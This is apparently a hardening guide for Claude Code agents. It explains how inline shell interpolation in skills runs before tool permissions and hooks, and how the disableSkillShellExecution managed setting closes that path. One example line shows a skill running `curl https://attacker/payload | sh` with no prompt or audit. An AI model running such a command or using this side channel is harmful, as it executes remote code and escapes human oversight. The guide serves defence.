

# Skill Shell Execution Gate: Disabling Inline Shell from Skills

> Inline shell interpolation in skills runs as preprocessing — outside the tool permission model. A managed-settings gate forces every shell side-effect through the audited Bash tool path.

## The Side-Channel Execution Path

Claude Code skills can embed `` !`<command>` `` and ` ```! ` blocks that the runtime executes before the rendered skill body reaches the model. The Skills documentation is explicit about the timing: each command "executes immediately (before Claude sees anything)" and "the output replaces the placeholder in the skill content … This is preprocessing, not something Claude executes" ([Claude Code Skills docs](https://code.claude.com/docs/en/skills)).

Tool permissions, PreToolUse hooks, and the Bash allow/deny list all gate model-emitted tool calls. They do not see preprocessing. A skill body containing `` !`curl https://attacker/payload | sh` `` runs at invocation time with no permission prompt, no hook fires, and no audit entry beyond the substituted output that lands in context.

[Skill content lifecycle](https://code.claude.com/docs/en/skills) compounds the persistence: the rendered SKILL.md "enters the conversation as a single message and stays there for the rest of the session." The interpolation runs once; its substituted output becomes durable context for every subsequent turn.

## The Gate

Claude Code 2.1.91 (April 2 2026) added the `disableSkillShellExecution` setting ([Claude Code changelog](https://code.claude.com/docs/en/changelog)):

```json
{
  "disableSkillShellExecution": true
}
```

When enabled, "each command is replaced with `[shell command execution disabled by policy]` instead of being run" ([Claude Code Skills docs](https://code.claude.com/docs/en/skills)). The replacement string is what the model sees in place of the substituted output.

Scope is the set of sources users author or distribute: skills and custom commands from user, project, plugin, and additional-directory sources. Bundled skills and managed-settings-deployed skills retain interpolation ([Claude Code Skills docs](https://code.claude.com/docs/en/skills)).

The setting is "most useful in [managed settings](https://code.claude.com/docs/en/permissions#managed-settings), where users cannot override it" ([Claude Code Skills docs](https://code.claude.com/docs/en/skills)). Settings precedence places managed first: managed settings "cannot be overridden by any other level, including command line arguments" ([Claude Code permissions docs](https://code.claude.com/docs/en/permissions)).

## Where the Gate Fits



With the gate on, the only path to shell side-effects is the model emitting a Bash tool call. That path is observable: deny rules apply, PreToolUse hooks intercept, and the transcript records the invocation. With the gate off, two paths exist — only one is enforced.

## The Generalisable Pattern

The pattern is a *uniform-execution-path* control: any agent runtime that exposes non-tool primitives capable of side effects (skills, snippets, custom commands, plugins, prompt templates) needs a kill switch that funnels execution back through the audited tool layer. Inline interpolation is the most direct example, but the same logic applies to any pre-render hook, template macro, or expansion that runs outside tool dispatch.

The mechanism mirrors the [hooks-vs-prompts](../verification/hooks-vs-prompts.md) distinction at a different layer: prompts are guidance the model can ignore; hooks fire deterministically. Inline shell from a skill is *deterministic execution outside the audit boundary* — the worst combination, because uniform policy enforcement assumes a single execution path.

## Trade-offs

The gate sacrifices the ergonomic value of live-context skills. Patterns like `` !`git diff HEAD` ``, `` !`gh pr diff` ``, or `` !`kubectl get deployments` `` ground skill instructions in current state without an extra round-trip ([Claude Code Skills docs](https://code.claude.com/docs/en/skills)). Disabling them forces every skill to either degrade or rely on the model emitting explicit Bash calls — which adds tokens, latency, and a permission prompt path unless `allowed-tools` is configured.

Bundled and managed skills retain the interpolation, which preserves Anthropic's first-party patterns and lets administrators ship trusted skills that need live state. The asymmetry is the design: the gate hardens the untrusted surface (user, project, plugin, add-dir) while keeping the controlled surface ergonomic.

The gate is most justified where untrusted skill sources can plausibly reach the agent — plugin marketplaces, shared developer tooling, third-party skill registries — and where [skill supply-chain poisoning](skill-supply-chain-poisoning.md) is a credible threat. For solo-developer or fully-internal-skill contexts with no plugin surface, the gate adds friction without proportionate threat reduction.

## Example

Managed settings configuration deployed via MDM or `/etc/claude-code/managed-settings.json` to enforce the gate organization-wide:

```json
{
  "disableSkillShellExecution": true,
  "allowManagedHooksOnly": true
}
```

Pairing with `allowManagedHooksOnly` closes the adjacent path: it ensures only hooks from managed settings, the SDK, or force-enabled managed plugins load — user, project, and other plugin hooks are blocked ([Claude Code permissions docs](https://code.claude.com/docs/en/permissions)). Together they restrict both the inline-shell and hook surfaces to administrator-controlled sources.

A skill that previously relied on interpolation is rewritten to emit a Bash tool call the model dispatches. The agent's `allowed-tools` field can pre-approve the specific command pattern so the gate does not introduce a permission prompt:

```yaml
---
name: pr-summary
description: Summarize changes in a pull request
allowed-tools: Bash(gh pr diff *) Bash(gh pr view *)
---

Use the gh CLI to fetch the current PR diff and comments, then summarize the changes.
```

Execution is now visible to PreToolUse hooks and recorded as a tool call in the transcript.

## Key Takeaways

- Inline shell interpolation in skills runs as preprocessing — before the model sees the body — so PreToolUse hooks and Bash permission rules never fire on it
- `disableSkillShellExecution: true` replaces every interpolation with `[shell command execution disabled by policy]`; user, project, plugin, and add-dir sources are in scope, bundled and managed skills are not
- Place the setting in managed settings so it cannot be overridden — settings precedence makes managed first
- The general pattern is uniform-execution-path enforcement: any side-effect primitive outside the tool layer is a side channel that defeats audit
- Trade ergonomic live-context skills for uniform policy enforcement; pair with `allowManagedHooksOnly` to close the hook surface as well

## Related

- [Skill Supply-Chain Poisoning](skill-supply-chain-poisoning.md)
- [Fail-Closed Remote Settings Enforcement](fail-closed-remote-settings-enforcement.md)
- [Permission-Gated Custom Commands](permission-gated-commands.md)
- [Sandbox Rules for Harness-Owned Tools](sandbox-rules-harness-tools.md)
- [Defense-in-Depth Agent Safety](defense-in-depth-agent-safety.md)
- [Enterprise Agent Hardening](enterprise-agent-hardening.md)
- [Skill as Knowledge Pattern](../tool-engineering/skill-as-knowledge.md)
- [Hooks vs Prompts for Enforcement](../verification/hooks-vs-prompts.md)
